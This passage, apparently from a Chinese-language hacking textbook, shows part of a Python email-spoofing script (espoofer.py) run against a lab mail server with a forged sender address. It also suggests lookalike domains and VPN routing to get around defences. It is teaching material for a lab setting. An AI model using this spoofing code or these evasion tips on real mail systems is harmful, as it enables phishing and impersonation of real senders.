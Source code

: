 ```
 ➌ s.send(b'\r\n.\r\n')

    print(s.recv(size).decode())  # display response

    s.send(b'QUIT\n')  # send QUIT

    print(s.recv(size).decode())  # display response

    s.close()

    def main(args):

     ➍ smtpServer = args[1]

        port = args[2]

        fromAddress = args[3]

        toAddress = args[4]

        message = args[5]

        sendMessage(smtpServer, port, fromAddress,

                    toAddress, message)

    if __name__ == "__main__":

        main(sys.argv)
```

我们将第一条消息发送到服务器，伪装成与发件人地址相关联的邮件服务器 ➊。接下来，我们打印出从服务器接收到的响应 ➋。在结束消息之前，我们继续发送数据，通过发送`<CR><LF>.<CR><LF>`来结束消息 ➌。Python 将`<CR>`和`<LF>`字符表示为`\r`和`\n`。最后，我们读取命令行参数，指定目标邮件服务器和电子邮件头部 ➍。

现在我们来运行 Python 程序。打开终端并导航到包含*espoofer.py*的文件夹：

```
kali@kali:~$ cd ~/Desktop/spoofer
```

使用这些参数运行*espoofer.py*程序：

```
kali@kali:~$ python3 espoofer.py <Metasploitable IP address> 25 hacking@virginia.edu sys
"Hello from the other side! "
```

这将从`hacking@virginia.edu`发送一封电子邮件到`sys`，邮件正文为“Hello from the other side！”。

这种攻击并不总是有效；某些 SMTP 服务器可能实现了防御性功能，如*基于域的消息认证、报告和一致性（DMARC）*，允许接收 SMTP 服务器验证 SMTP 消息是否来自授权的 IP 地址。不过，总是有其他方法可以耍花招。例如，你可以注册一个与目标域名相似的域名。像 URLCrazy 这样的工具可以帮助你快速查找与目标域名相似的域名。为了减少垃圾邮件，一些 ISP 已经开始封锁 25 端口上的数据包。因此，如果你想审核虚拟环境外的系统，你需要通过*虚拟私人网络（VPN）*来路由你的流量。

#### ***伪造 SMTPS 电子邮件***
